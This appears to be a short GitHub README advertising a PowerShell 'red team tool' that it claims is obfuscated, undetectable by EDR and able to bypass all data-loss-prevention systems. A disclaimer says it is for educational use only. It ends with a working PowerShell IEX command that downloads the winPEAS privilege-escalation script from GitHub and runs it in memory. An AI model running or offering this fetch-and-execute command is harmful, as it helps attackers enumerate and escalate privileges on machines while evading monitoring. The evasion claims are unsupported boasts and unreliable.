 # Highly Obfuscated Undetectable PowerShell Red Team Tool

## Overview

I have developed a highly obfuscated and undetectable PowerShell Red Team Tool. This tool allows users to download or access it in any monitoring browser or EDR system. It is designed to bypass EDR detection and overcome all DLP solutions, providing a seamless download experience without any restrictions.

## Features

- Highly obfuscated for increased stealth
- Undetectable by EDR systems
- Bypasses all DLP solutions
- Seamless download experience

## Usage

Google IT How to load Powershell In memeory 

Note: Ensure that you have the necessary permissions and legal authorization before using this tool.

## Disclaimer

This tool is intended for educational and red teaming purposes only. Usage for any malicious activities is strictly prohibited. The developer is not responsible for any misuse or damage caused by this tool.

## Contributing

Feel free to contribute by submitting bug reports or feature requests.








powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
